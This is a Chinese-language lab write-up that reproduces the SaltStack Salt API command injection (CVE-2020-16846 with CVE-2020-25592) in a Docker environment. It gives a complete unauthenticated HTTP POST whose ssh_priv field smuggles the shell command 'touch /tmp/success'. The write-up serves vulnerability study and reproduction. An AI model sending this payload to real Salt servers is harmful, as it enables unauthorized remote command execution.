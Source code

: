 # SaltStack 命令注入漏洞（CVE-2020-16846）

SaltStack 是基于 Python 开发的一套C/S架构配置管理工具。2020年11月SaltStack官方披露了CVE-2020-16846和CVE-2020-25592两个漏洞，其中CVE-2020-25592允许任意用户调用SSH模块，CVE-2020-16846允许用户执行任意命令。组合这两个漏洞，将可以使未授权的攻击者通过Salt API执行任意命令。

参考链接：

- https://mp.weixin.qq.com/s/R8qw_lWizGyeJS0jOcYXag

## 漏洞环境

执行如下命令启动一个SaltStack Master服务：

```
docker-compose up -d
```

环境启动后，将会在本地监听如下端口：

- 4505/4506 这是SaltStack Master与minions通信的端口
- 8000 这是Salt的API端口，**需要通过https访问**
- 2222 这是容器内部的SSH服务器监听的端口

## 漏洞复现

向`https://your-ip:8000/run`发送如下数据包：

```
POST /run HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/x-yaml
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 87

token=12312&client=ssh&tgt=*&fun=a&roster=whip1ash&ssh_priv=aaa|touch%20/tmp/success%3b
```

通过`ssh_priv`位置注入命令`touch /tmp/success`，进入容器可见已执行成功：

![](1.png)
